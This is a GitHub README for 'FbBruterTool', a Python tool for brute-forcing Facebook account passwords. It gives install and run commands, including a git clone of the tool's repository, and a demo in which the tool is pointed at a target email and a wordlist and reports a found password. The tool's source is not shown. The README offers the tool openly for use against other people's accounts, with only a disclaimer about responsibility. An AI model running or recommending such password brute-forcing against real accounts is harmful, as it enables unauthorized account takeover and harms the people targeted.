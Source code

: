 # FbBruterTool
Updated Facebook Python Brute Force Tool for Python 3

# Installation
```
pip3 install mechanize
```
```
git clone https://github.com/0sssama/FbBruterTool2/
```
```
cd FbBruterTool2
```
```
python fb-bruter.py
```

# Demo
```
root@username:~ python fb-bruter.py
[?] Target Username/ID/Email >>> my.target@something.com

[?] Wordlist Directory >>> passwordFile.lst

BruteForcing my.target@something.com Now...

[!] Wrong Password! > qwertyuiop
[!] Wrong Password! > qwertyuiop123
[!] Wrong Password! > 123456789

#############################################

[+] Password Found! > password123

root@username:~ 
```
# NOTE
Using this tool is your own responsibility.

